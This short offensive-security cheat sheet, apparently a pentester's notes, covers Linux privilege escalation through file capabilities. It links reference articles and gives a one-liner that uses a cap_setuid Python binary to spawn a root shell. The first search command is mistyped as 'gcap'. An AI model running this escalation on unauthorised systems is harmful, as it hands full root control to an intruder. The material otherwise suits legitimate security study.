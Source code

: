 ## Capabilities

#### Capabilities overview

[Linux Privileage Escalation using capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)
[SUID vs Capabilities](https://mn3m.info/posts/suid-vs-capabilities/)
[Linux Capabilities Privilege Escalation via OpenSSL with SELinux Enabled and Enforced](https://medium.com/@int0x33/day-44-linux-capabilities-privilege-escalation-via-openssl-with-selinux-enabled-and-enforced-74d2bec02099)

Hunting capabilities - `gcap -r / 2>/dev/null`

* * *

#### Escalation via Capabilities

Example:
`getcap -r / 2>/dev/null` gives the output as follows:
/usr/bin/python2.6 = cap_setuid+ep

`/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'` - this will make us root.

Some common capabilities to look for:
- tar
- openssl
- perl